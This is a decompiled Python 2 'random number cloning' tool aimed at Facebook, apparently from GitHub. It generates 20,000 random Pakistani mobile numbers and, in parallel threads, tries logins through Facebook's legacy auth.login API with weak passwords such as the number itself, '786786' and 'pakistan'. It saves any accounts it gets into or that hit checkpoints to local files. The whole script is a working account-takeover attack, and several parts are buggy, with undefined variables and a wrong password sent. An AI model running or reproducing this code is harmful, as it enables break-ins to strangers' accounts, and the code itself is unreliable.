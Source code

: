 # Decompiled By SyEd AhMed Shah>< 
# Github : https://github.com/MASSOMXLARKA
# uncompyle6 version 3.7.4
# Original written By DEVIL
 
import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
os.system('rm -rf .txt')
for n in range(20000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()
 
try:
    import requests
except ImportError:
    os.system('pip2 install mechanize')
 
try:
    import mechanize
except ImportError:
    os.system('pip2 install request')
    time.sleep(1)
    os.system('python2 .README.md')
 
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]
 
def exb():
    print '[!] Exit Successfully '
    os.sys.exit()
 
 
def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!' + w[random.randint(0, len(w) - 1)] + i
 
    return cetak(d)
 
 
def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x = x.replace('!%s' % i, '\x1b[%s;1m' % str(31 + j))
 
    x += '\x1b[0m'
    x = x.replace('!0', '\x1b[0m')
    sys.stdout.write(x + '\n')
 
 
def jalan(x):
    for e in x + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(3.0 / 200)
 
 
def tik():
    titik = ['   ', '. ', '.. ', '...', '. ', '.. ', '...', '']
    for o in titik:
        print '\r\x1b[1;96m \x1b[1;96m               Load\x1b[1;96ming\x1b[1;0m\x1b[1;96m' + o,
        sys.stdout.flush()
        time.sleep(0.5)
 
##### LOGO #####
logo = """
              
______ _      _____ _______                              
                                                                                                                                                                      
\x1b[1;96m_________________________________________________
\x1b[1;96m\033[1;96mAuthor   :            AhmEd
\x1b[1;96m\033[1;96mFacebook :         Ahmed.shah.brand
\x1b[1;96m\033[1;96mGitHub   :             Shah/G
\x1b[1;96m\033[1;96mVersion  :              
\x1b[1;96m__________________________________________________
                                                 """
logo1 = '     \n\n\x1b[4;96mSELECT PAK  SIM CODE \x1b[1;0m\n\x1b[1;96m[1] Jazz    \x1b[1;97m 00,01,02,03,04,05,06,07,08\n\x1b[1;96m[2] Zong    \x1b[1;97m 11,12,13,14,15,16,17\n\x1b[1;96m[3] Warid   \x1b[1;97m 21,22,23,24,25\n\x1b[1;96m[4] Ufone   \x1b[1;97m 30,31,32,33,34,35\n\x1b[1;96m[5] Telenor \x1b[1;97m 40,41,42,43,44,45,46,47\n\n\n\n\x1bx \x1b[1;97m\x1b[1;0m\n'
back = 0
berhasil = []
cekpoint = []

Lock = []
id = []
cpb = []
 
def menu():
    os.system('clear')
    print logo
    print(47*'-')
    print
    jalan ('\x1b[1;96m[1] START Random Number Cloning ')
    print
    print(47*'-')
    action()
 
def action():
    global cpb
    global oks
    ss = raw_input('\x1b[1;96mselect 1= ')
    if ss == '':
        print '[!] Warning'
        action()
    elif ss == '1':
        tik()
        os.system('clear')
        print logo
        print logo1
        try:
            c = raw_input('\x1b[1;97mCODE : ')
            k = '03'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
 
        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
 
    elif ss == '0':
        exb()
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    os.system('clear')
    print logo
    jalan ('\x1b[1;97mUse without internet sim.minimize termux and check every 10 minutes  later. airplane mode use every 10 mint.')
    print(47*'-')
    xxx = str(len(id))
    jalan('\x1b[1;97m              TOTAL IDS :\x1b[1;96m ' + xxx)
    print(47*'-')
    def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;96m  [Ahmed_Temp_Lock]  ' + k + c + user + '  |  ' + pass1
                okb = open('save/CP.txt', 'a')
                okb.write(k + c + user + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;97m  [MASOOM_CP] ' + k + c + user + '  |  ' + pass1
                cps = open('save/CP.txt', 'a')
                cps.write(k + c + user + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
            else:
                pass2 = k + c + user
                data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                q = json.load(data)
                if 'access_token' in q:
                    print '\x1b[1;96m  [MASOOM_Temp_Lock] ' + k + c + user + '  |  ' + pass2
                    okb = open('save/OK.txt', 'a')
                    okb.write(k + c + user + pass2 + '\n')
                    okb.close()
                    oks.append(c + user + pass2)
                elif 'www.facebook.com' in q['error_msg']:
                    print '\x1b[1;97m  [MASOOM_CP] ' + k + c + user + '  |  ' + pass2
                    cps = open('save/CP.txt', 'a')
                    cps.write(k + c + user + pass2 + '\n')
                    cps.close()
                    cpb.append(c + user + pass2)
                else:
                    pass3 = '786786'
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;96m  [Devil_Temp_Lock]  ' + k + c + user + '  |  ' + pass3
                        okb = open('save/CP.txt', 'a')
                        okb.write(k + c + user + pass3 + '\n')
                        okb.close()
                        oks.append(c + user + pass3)
                    elif 'www.facebook.com' in q['error_msg']:
                        print '\x1b[1;97m  [Ahmed_CP] ' + k + c + user + '  |  ' + pass3
                        cps = open('save/CP.txt', 'a')
                        cps.write(k + c + user + pass3 + '\n')
                        cps.close()
                        cpb.append(c + user + pass3)
                    else:
                       pass4 = 'pakistan'
                       data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                       q = json.load(data)
                       if 'access_token' in q:
                        print '\x1b[1;96m  [Abdullah_Temp_Lock]  ' + k + c + user + '  |  ' + pass4
                        okb = open('save/CP.txt', 'a')
                        okb.write(k + c + user + pass4 + '\n')
                        okb.close()
                        oks.append(c + user + pass3)
                       elif 'www.facebook.com' in q['error_msg']:
                        print '\x1b[1;97m  [Abdullah_CP] ' + k + c + user + '  |  ' + pass4
                        cps = open('save/CP.txt', 'a')
                        cps.write(k + c + user + pass4 + '\n')
                        cps.close()
                        cpb.append(c + user + pass4)
                        
        except:
            pass
 
    p = ThreadPool(30)
    p.map(main, id)
    print(48*"-")
    print 'Process Has Been Completed ...'
    print 'Total OK : ' + str(len(oks))
    print 'Total CP : ' + str(len(cpb))
    print(47*"-")
    print 'Cloned Accounts Has Been Saved : save/cloned.txt'
    jalan('Note : CP ACCOUNTS 4 SE 8 DIN MAI OPEN KARNA')
    raw_input('\n\x1b[1;97m[\x1b[1;98melite_menu_Back\x1b[1;95m]')
    login()
 
 
if __name__ == '__main__':
    menu()
 
 
